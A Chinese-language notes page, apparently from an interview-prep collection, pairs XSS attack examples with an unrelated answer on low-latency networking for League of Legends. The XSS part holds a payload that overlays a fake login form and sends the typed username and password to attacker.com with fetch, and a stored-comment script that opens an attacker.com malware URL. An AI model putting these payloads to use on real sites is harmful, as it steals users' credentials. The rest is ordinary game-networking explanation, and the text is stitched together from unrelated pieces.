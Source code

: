 
**钓鱼页面覆盖（伪造登录弹窗）**

```js
// 反射型 XSS：覆盖页面内容，诱导用户输入凭据
<script>
  document.body.innerHTML = `
    <div style="position:fixed;top:0;left:0;width:100%;background:red;padding:20px;">
      <h1>系统安全警告！请重新登录：</h1>
      <input id="username" placeholder="用户名">
      <input id="password" type="password" placeholder="密码">
      <button onclick="steal()">提交</button>
    </div>
  `;
  function steal() {
    const u = document.getElementById('username').value;
    const p = document.getElementById('password').value;
    fetch('https://attacker.com/steal?u=' + u + '&p=' + p);
  }
</script>**浏览器漏洞利用（升级为RCE）**
```



**存储型XSS（污染数据库）**

```js
// 存储型 XSS 示例：用户评论字段注入
用户提交评论内容：
  <script>
    window.open('https://attacker.com/malware');
  </script>
```







## Q: 怎么保证网络游戏的实时性，以英雄联盟为例？

这个问题建议就是从技术架构、网络协议、算法优化、基础设施等多个维度进行系统性设计。

- 网络传输层优化

游戏为了保证延时低的性质，肯定是选择UDP协议作为主要的传输协议，但因为UDP原生并没有自主纠错和校验的功能，然后可以自定义可靠层如(RakNet)实现关键的数据包重传和确认机制，比如玩家技能释放、坐标位置的更新。

对数据进行优化和压缩，重点就是保证增量更新，仅仅传输状态变化量而不是全量数据，比如更新坐标的时候仅仅发送坐标差值，而非完整坐标。

在关键的数据包中加入冗余信息，比如购买装备、野区资源争夺(大小龙、巢虫、先锋、厄塔汗等)，减少丢包带来的游戏重大影响。



- 服务器端架构设计

由于玩家的位置不是物理上的聚集，所以玩家离服务器的远近就会导致游戏中的延迟高低，游戏中应该结合CDN网络降低物理距离导致的延迟问题，使用一些判断机制，将玩家的路由到最近的接入点。

所有关键逻辑在服务器端执行，并且服务器采用分帧处理，确保玩家的状态是同步的，不会说同一攻击，本地机器性能较好的反而能更快攻击到。

负载均衡，LOL中的一把对局10人一个游戏房间，服务器要动态分配，避免单点过载，以及自动实现扩缩容，应对团战或者恶意攻击服务器导致的突发流量。
